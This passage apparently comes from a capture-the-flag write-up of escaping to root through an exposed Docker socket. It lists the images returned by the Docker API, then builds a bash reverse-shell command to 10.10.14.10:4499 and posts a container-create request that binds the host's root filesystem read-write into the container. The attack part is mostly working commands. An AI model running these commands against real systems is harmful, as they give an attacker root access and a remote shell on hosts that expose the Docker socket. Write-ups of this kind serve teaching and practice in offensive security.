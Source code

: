 ```bash
[{"Containers":-1,"Created":1656086146,"Id":"sha256:b97d15b16a2172a201a80266877a65a44b0d7fa31c29531c20cdcc8e98c2d227","Labels":{"io.webdevops.layout":"8","io.webdevops.version":"1.5.0","maintainer":"info@webdevops.io","vendor":"WebDevOps.io"},"ParentId":"sha256:762bfd88e0120a1018e9a4ccbe56d654c27418c7183ff4a817346fd2ac8b69af","RepoDigests":null,"RepoTags":["laravel-app_main:latest"],"SharedSize":-1,"Size":1975239137,"VirtualSize":1975239137},{"Containers":-1,"Created":1655515586,"Id":"sha256:ca37554c31eb2513cf4b1295d854589124f8740368842be843d2b4324edd4b8e","Labels":{"io.webdevops.layout":"8","io.webdevops.version":"1.5.0","maintainer":"info@webdevops.io","vendor":"WebDevOps.io"},"ParentId":"","RepoDigests":null,"RepoTags":["webdevops/php-apache:7.4"],"SharedSize":-1,"Size":1028279761,"VirtualSize":1028279761},{"Containers":-1,"Created":1640902141,"Id":"sha256:6af04a6ff8d579dc4fc49c3f3afcaef2b9f879a50d8b8a996db2ebe88b3983ce","Labels":{"maintainer":"Thomas Bruederli <thomas@roundcube.net>"},"ParentId":"","RepoDigests":["roundcube/roundcubemail@sha256:f5b054716e2fdf06f4c5dbee70bc6e056b831ca94508ba0fc1fcedc8c00c5194"],"RepoTags":["roundcube/roundcubemail:latest"],"SharedSize":-1,"Size":612284073,"VirtualSize":612284073},{"Containers":-1,"Created":1640805761,"Id":"sha256:c99e357e6daee694f9f431fcc905b130f7a246d8c172841820042983ff8df705","Labels":null,"ParentId":"","RepoDigests":["composer@sha256:5e0407cda029cea056de126ea1199f351489e5835ea092cf2edd1d23ca183656"],"RepoTags":["composer:latest"],"SharedSize":-1,"Size":193476514,"VirtualSize":193476514},{"Containers":-1,"Created":1640297121,"Id":"sha256:cec4e9432becb39dfc2b911686d8d673b8255fdee4a501fbc1bda87473fb479d","Labels":{"org.opencontainers.image.authors":"The Docker Mailserver Organization on GitHub","org.opencontainers.image.description":"A fullstack but simple mail server (SMTP, IMAP, LDAP, Antispam, Antivirus, etc.). Only configuration files, no SQL database.","org.opencontainers.image.documentation":"https://github.com/docker-mailserver/docker-mailserver/blob/master/README.md","org.opencontainers.image.licenses":"MIT","org.opencontainers.image.revision":"061bae6cbfb21c91e4d2c4638d5900ec6bee2802","org.opencontainers.image.source":"https://github.com/docker-mailserver/docker-mailserver","org.opencontainers.image.title":"docker-mailserver","org.opencontainers.image.url":"https://github.com/docker-mailserver","org.opencontainers.image.vendor":"The Docker Mailserver Organization","org.opencontainers.image.version":"refs/tags/v10.4.0"},"ParentId":"","RepoDigests":["mailserver/docker-mailserver@sha256:80d4cff01d4109428c06b33ae8c8af89ebebc689f1fe8c5ed4987b803ee6fa35"],"RepoTags":["mailserver/docker-mailserver:latest"],"SharedSize":-1,"Size":560264926,"VirtualSize":560264926},{"Containers":-1,"Created":1640059378,"Id":"sha256:badd93b4fdf82c3fc9f2c6bc12c15da84b7635dc14543be0c1e79f98410f4060","Labels":{"maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2021-12-21T03:59:32Z","org.opencontainers.image.revision":"877040e6521e48c363cfe461746235dce4ab822b","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"},"ParentId":"","RepoDigests":["gitea/gitea@sha256:eafb7459a4a86a0b7da7bfde9ef0726fa0fb64657db3ba2ac590fec0eb4cdd0c"],"RepoTags":["gitea/gitea:1.15.8"],"SharedSize":-1,"Size":148275092,"VirtualSize":148275092},{"Containers":-1,"Created":1640055479,"Id":"sha256:dd3b2a5dcb48ff61113592ed5ddd762581be4387c7bc552375a2159422aa6bf5","Labels":null,"ParentId":"","RepoDigests":["mysql@sha256:20575ecebe6216036d25dab5903808211f1e9ba63dc7825ac20cb975e34cfcae"],"RepoTags":["mysql:5.6"],"SharedSize":-1,"Size":302527523,"VirtualSize":302527523},{"Containers":-1,"Created":1639694686,"Id":"sha256:0f7cb85ed8af5c33c1ca00367e4b1e4bfae6ec424f52bb04850af73fb19831d7","Labels":null,"ParentId":"","RepoDigests":["php@sha256:6eb4c063a055e144f4de1426b82526f60d393823cb017add32fb85d79f25b62b"],"RepoTags":["php:7.4-fpm-alpine"],"SharedSize":-1,"Size":82510913,"VirtualSize":82510913}
```
At the top we find `laravel-app_main:latest` - lets use that one.

(2) Declare the `cmd` variable, change IP address and port to fit our needs. This command will be triggered when we start the container.
```bash
application@4dae106254bf:/dev/shm$ cmd="[\"/bin/sh\",\"-c\",\"chroot /tmp sh -c \\\"bash -c 'bash -i &>/dev/tcp/10.10.14.10/4499 0<&1'\\\"\"]"
```

(3) Create the container and execute command, bind the root filesystem to it, name the container `exploit.se_root` and execute as detached (-d)
```bash
application@4dae106254bf:/dev/shm$ curl -s -X POST --unix-socket /app/docker.sock -d "{\"Image\":\"laravel-app_main\",\"cmd\":$cmd,\"Binds\":[\"/:/tmp:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create?name=exploit.se_root
```
